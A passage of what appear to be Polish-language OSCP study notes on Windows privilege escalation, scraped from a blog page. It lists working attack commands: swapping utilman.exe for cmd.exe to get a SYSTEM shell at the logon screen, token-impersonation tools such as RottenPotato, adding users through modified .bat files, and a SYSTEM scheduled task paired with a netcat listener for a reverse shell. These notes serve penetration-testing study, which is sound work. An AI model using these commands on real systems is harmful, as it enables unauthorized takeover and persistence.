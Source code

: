 zrobic<br>#— lab siddicky<br>#najpierw uzywa <a href="https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1">tego</a> .ps1 tworka do enable funkcji<br>#&gt; PS&gt; Enable SeRestorePrivilege<br>#&gt;cd \windows\system32  #&gt; move utilmam.exe utilmam.exe.back #&gt; moce cmd.exe utilman.exe <br>#&gt;rdesktop DC01 #&gt; klikan klawisze Win+U i wyskakuje mu cmd.exe (uprawenianie system) zamiast innego programu<br><strong>###SeCreateTokenPrivilege###</strong><br>#follow: https://www.greyhathacker.net/?p=1025<br>###Server Operator Group w AD###<br>#<a href="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/">artykul</a><br><strong>###SeTakeOwnership###</strong><br>#takeown /f C:\Windows\System32\Utilman.exe<br>#icacls C:\Windows\System32\Utilman.exe /grant Everyone:F<br>#C:\Windows\System32&gt; copy cmd.exe utilman.exe  (Click the Ease of Access button on the logon screen to get a shell with NT Authority\System privileges)<br><strong>###SeAssignPrimaryToken###</strong><br>#TCM mówi że to w sumie to samo co SeImpersonate !!<br>#This allows a user to impersonate tokens using exploit tools such as rottenpotato.exe (<a href="https://github.com/breenmachine/RottenPotatoNG/tree/master/RottenPotatoEXE/x64/Release">pobierz</a>)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Cron" ez-toc-data-id="#Cron"></span><strong>Cron</strong>:<span class="ez-toc-section-end"></span></h4>



<p><em>podmiana .exe lub dopisanie czegoś do .bat</em> (np. user /add rabakuku …) -&gt; reboot system: shutdown /f</p>



<p>#<mark style="background-color:#a1ff8c" class="has-inline-color"><a href="https://3haker.pl/privilege-escalation/">schtasks</a> /query /fo LIST /v</mark> (zapis &gt; schtasks.txt)<br>#tasklist /SVC (dla konkretnej usługi) LUB tasklist /v<br>#time #&gt; at 06:42 /interactive „C:\Tools\sirenMaint.exe”<br>#Create a Task. Run as System. Every 5 minutes. Path to binary.<br>schtasks /create /ru SYSTEM /sc MINUTE /MO 5 /tn RUNME /tr „\”C:\Tools\sirenMaint.exe\”” #&gt; na Kalim: nc -lvp 443 #&gt; na ofiary: schtasks /RUN /TN „RUNME”<br>#sprawdzanie czy jest autostart w ogole wlaczony w cmd: sc qc IKEEXT (a wymusznie wlaczenia: sc start IKEEXT, jezelu masz uprawnienia)<br>#reg query – pliki binarne przy startupie (chyba rejestr)<br><strong>###Tools###</strong><br>#Jaws pokaże – ważne są te Run as Administrator<br><strong><mark style="background-color:#faa9ff" class="has-inline-color">###oscp23###</mark></strong><br>#PS: Get-ScheduledTask<br>#PS: schtasks /query /fo LIST /v  (lepsze, bo pokazuje jako jaki user uruchamiana jest usluga: Author, TaskName, Task To Run, Run As User, and Next Run Time  ;   znajdujemy odpowidni exe i sprawdzamy przez icacls nasze prawa)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Procesy_uslugi" ez-toc-data-id="#Procesy_uslugi"></span>Procesy, usługi<span class="ez-toc-section-end"></span></h4>


